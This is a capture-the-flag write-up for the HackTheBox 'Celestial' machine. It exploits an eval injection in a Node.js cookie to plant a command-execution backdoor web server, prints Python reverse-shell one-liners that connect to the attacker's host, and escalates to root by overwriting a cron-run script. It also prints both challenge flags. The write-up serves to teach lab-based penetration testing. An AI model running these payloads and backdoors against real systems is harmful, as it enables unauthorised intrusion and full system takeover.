# HackTheBox Celestial Write Up
## Enumeration
We will start with a scan to see what ports and services are open.  -A tells nmap to do OS and version detection and traceroute so we can enumerate the services
on the target.  -Pn tells nmap not to ping the target first.

```bash
nmap -A -Pn 10.10.10.85
```
-A tells nmap to do a service scan so we can enumerate the services on the target.  -Pn tells nmap not to ping the target first.



It looks like there is an HTTP server running Node.js Express Framework running on this host.  Prior to this challenge, I did not have a lot of experience with Node.js or JavaScript in general.  The Express Framework allows developers to create applications from Node.js code.  More information about the Express Framework is available here<sup>[1]</sup>.  The website seems to be as good of a place to start as any, so let's see what it looks like:


## User Flag
Well, that is not very useful.  I took a look at the source and what you see is what you get.  I looked around for examples of other applications that use this framework, and I saw that a few had a question mark then a parameter, like <IP>/?index.  The parameter differed depending on the application, but maybe we can see something if we try an arbitary parameter.  Let's try http://10.10.10.85:3000/?index


This is interesting.  It looks like the two values are being concatenated.  I tried a number of different parameters and nothing changed those values.  Sometimes, you need to look at things that are not obvious in how the page is rendered, like headers and cookies.  You can use the developer tools in your browser of choice to see these things.  I use Firefox, so F12 will bring up the developer tools.  The Network tab lets us see all of the transactions between the browser and the server.  You can click on each one to dig in.  The headers did not reveal anything we did not already know (that the site is powered by the Express Framework).  However, the cookie is interesting:


The full value of the cookie is:
```
eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==
```
This looks Base64 encoded.  Let's try decoding it:
```json
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

This looks like a sort of record, perhaps from a database or a data file.  The 2 in the num field may be where the 2 + 2 is coming from.  Because 2 is a string in this case (it is surrounded by quotes), "2" + "2" is the string "22".  It may be that the script behind this server is performing an eval of num + num.  That means we may be able to manipulate the value of num by altering the cookie.  This may allow us to execute arbitrary code on the server.  We can test this by causing an error on the server which may give us information about the application.  I put the string ```cat /etc/passwd``` into the num field and Base64 encoded it to get ```eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6ImNhdCAvZXRjL3Bhc3N3ZCJ9```.  With curl, we can send this cookie to the server and observe the reponse.  You can also edit and resend the request in Firefox or Chrome.

```bash
# -b allows us to specify a cookie to curl.  The name of the cookie is profile
curl -v -b "profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6ImNhdCAvZXRjL3Bhc3N3ZCJ9" "http://10.10.10.85:3000/?index"
```


This has revealed a few interesting pieces of information:

    * The eval function is being used in this application.
    * The application is running from /home/sun/server.js
    * One of the users on the system has a user name of sun.
    * The num field may be subject to a regex.

I am not a JavaScript / node.js expert by any means, so I played around trying to write enough JavaScript to read arbitrary files from the target or spawn a reverse shell, but I could not get anything to work.  I found a site that had a mini web server written in node.js that would allow execution of arbitary shell commands.  The site is here<sup>[2]</sup>.

Here is the mini web server.  I added some comments so we can make sense of what it is doing.  These comments are not necessary to get things to work.
```javascript
// Activate the server after 8000 ms (8 seconds)
setTimeout(function()
    {
        // Create the server with two arguments: req (the original request) and res (the response)
        require('http').createServer(function (req, res) {
            // Add headers to the response: the response code (HTTP 200 - OK) and set the content type to plain text
            res.writeHead(200, {"Content-Type": "text/plain"});
            /* Execute the value of the cmd parameter.  We would invoke it like so:
               http://10.10.10.85:8002/?cmd=<whatever command we want to run>
            
               When the command is done, finish the request the second parameter to exec (the function)
               is a callback function that takes three parameters:
               e: any errors
               s: the contents of standard output
               st: the contents of standard error
               
               When the function is called, it puts the contents of standard output (s) into the HTTP response and closes the response.
            */
            require('child_process').exec(require('url').parse(req.url, true).query['cmd'], function(e,s,st) {res.end(s);});
        }).listen(8002); // listen on port 8002
    // End the statement and comment out anything that comes after it
    }, 8000);//
```
To get the server to execute it, we have to substitute it for the value of the num parameter and Base64 encode the entire thing:
```
eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6InNldFRpbWVvdXQoZnVuY3Rpb24oKSB7IHJlcXVpcmUoJ2h0dHAnKS5jcmVhdGVTZXJ2ZXIoZnVuY3Rpb24gKHJlcSwgcmVzKSB7IHJlcy53cml0ZUhlYWQoMjAwKTtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYyhyZXF1aXJlKCd1cmwnKS5wYXJzZShyZXEudXJsLCB0cnVlKS5xdWVyeVsnY21kJ10sIGZ1bmN0aW9uKGUscyxzdCkge3Jlcy5lbmQocyk7fSk7IH0pLmxpc3Rlbig4MDAyKTsgfSwgODAwMCk7Ly8ifQ==
```

I used a slightly different URL at this point because I had been playing with different things, but it should not matter what you use (index, input, whatever).
```bash
curl -v -b "profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6InNldFRpbWVvdXQoZnVuY3Rpb24oKSB7IHJlcXVpcmUoJ2h0dHAnKS5jcmVhdGVTZXJ2ZXIoZnVuY3Rpb24gKHJlcSwgcmVzKSB7IHJlcy53cml0ZUhlYWQoMjAwKTtyZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYyhyZXF1aXJlKCd1cmwnKS5wYXJzZShyZXEudXJsLCB0cnVlKS5xdWVyeVsnY21kJ10sIGZ1bmN0aW9uKGUscyxzdCkge3Jlcy5lbmQocyk7fSk7IH0pLmxpc3Rlbig4MDAyKTsgfSwgODAwMCk7Ly8ifQ==" "http://10.10.10.85:3000/?input"
```


The response from the server is
```javascript
Hey Dummy setTimeout(function() { require(\'http\').createServer(function (req, res) { res.writeHead(200);require(\'child_process\').exec(require(\'url\').parse(req.url, true).query[\'cmd\'], function(e,s,st) {res.end(s);}); }).listen(8002); }, 8000);// + setTimeout(function() { require(\'http\').createServer(function (req, res) { res.writeHead(200);require(\'child_process\').exec(require(\'url\').parse(req.url, true).query[\'cmd\'], function(e,s,st) {res.end(s);}); }).listen(8002); }, 8000);// is [object Object]
```
That [[object Object]] means the code executed, so in 8 seconds, we should be able to access our backdoor web server at http://10.10.10.85:8002/?cmd=<some command>.

We will list the directory since we know that the server is running from /home/sun/server.js We saw this in the error output above.  So a directory listing should show us the contents of /home/sun:
```
http://10.10.10.85:8002/?cmd=ls -al
```



The user flag is not immediately visible, so we will have to go looking for that later.  In the meantime, we can take a look at server.js:

```
http://10.10.10.85:8002/?cmd=cat server.js
```

```javascript
var express = require('express');
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');
var app = express();
app.use(cookieParser())
 
app.get('/', function(req, res) {
 if (req.cookies.profile) {
   var str = new Buffer(req.cookies.profile, 'base64').toString();
   var obj = serialize.unserialize(str);
   if (obj.username) { 
     var sum = eval(obj.num + obj.num);
     res.send("Hey " + obj.username + " " + obj.num + " + " + obj.num + " is " + sum);
   }else{
     res.send("An error occurred...invalid username type"); 
   }
}else {
     res.cookie('profile', "eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==", {
       maxAge: 900000,
       httpOnly: true
     });
 }
 res.send("<h1>404</h1>");
});
app.listen(3000);
```
So the script works the way we thought it did.  It calls eval on the num field added to itself.  This opens the application to potential abuse such as what we have demonstrated here.

After poking around, the flag is in the Documents folder:


We can use our web server to get the contents of the flag file:

```9a093cd22ce86b7f41db4116e80d0b0f```

## Root Flag
There is another file in the directory: script.py

```python
print "Script is running..."
```
Since Python is likely on the box, we can use our server to get a a reverse shell.  We will set up a netcat listener on our local box:
```bash
# You can use whatever port you would like
# It makes sense for a server to connect to a high numbered port on a client
nc -vlp 44551
```

Here is our one line of Python to spawn the reverse shell connection.  We will expand it to multiple lines so we can see what it does exactly.
```python
# Run with python -c '<code on one line>'

# Import necessary libraries
import socket,subprocess,os

# Set up a socket that we can send and receive data through
# AF_INET is IPv4, SOCK_STREAM is TCP.  You could use socket.SOCK_DGRAM for UDP.
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)

# Connect to our machine on port 44551
s.connect(("10.10.15.231",44551))

# dup2 copies the first file descriptor to the second file descriptor.
# In the next three lines, we are duplicating the socket's file descriptor to standard input, standard output, and standard error respectively
# This sends the data to / from those streams through the socket
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

# Spawn /bin/sh.  Since the standard input streams are duplicated to the socket, we can interact with this shell
p=subprocess.call(["/bin/sh","-i"]);'
```

We will access the following URL and wait:
```
http://10.10.10.85:8002/?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.231",44551));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


We will spawn a "real" terminal so that we are not confined to the reverse shell.  This will give us things like up arrow history and allow us to run some commands that require a terminal:
```bash
python -c 'import pty; pty.spawn("/bin/bash")' 
```
If we look at the contents of sun's home directory, we see a file called output.txt owned by root:


This looks like the output of the Python script we saw in sun's Documents folder previously.  It is possible that we can run the script as root.  Let's check with ```bash sudo -l```:


Looks like we will need sun's password see what sun can run as sudo.  Maybe something else is going on.  After poking around for a few minutes then checking the directory again, I noticed that the file was modified what seemed like once every 5 minutes.  Perhaps there is a cron job running the script.  If so, we should be able to replace the script's contents with whatever we want, and root will run it.
We will overwrite it with the same code that we used to spawn the shell for sun but with a different port number (44552 instead of 44551):
```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.231",44552));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > Documents/script.py
```
After waiting a few minutes:


We have a root shell.  Let's look at root's cron jobs to see if our theory was correct (```crontab -l```):



Looks like we were right.  Let's get the flag:


```ba1d0019200a54e370ca151007a8095a```

## Conclusion
This was my first time experimenting with node.js, and it shows that you need to be careful about processing input from potentially untrusted sources regardless of which language you use.  Also, it is never a good idea to have a script run as root / Administrator that someone other that root or Administrator can tamper with.

## References
[1]: https://expressjs.com/ "Express JS Framework"
[2]: http://www.websecgeeks.com/2017/04/pentesting-nodejs-application-nodejs.html "Web Security Geeks - Penetration Testing Node.js Application"
[3]: https://nodejs.org/api/child_process.html#child_process_child_process_exec_command_options_callback "Node.js Documentation: child_process"

    * [<sup>1</sup> Express JS Framework](https://expressjs.com/)
    * [<sup>2</sup> Web Security Geeks - Penetration Testing Node.js Application](http://www.websecgeeks.com/2017/04/pentesting-nodejs-application-nodejs.html)
    * [<sup>3</sup> Node.js Documentation: child_process](https://nodejs.org/api/child_process.html#child_process_child_process_exec_command_options_callback)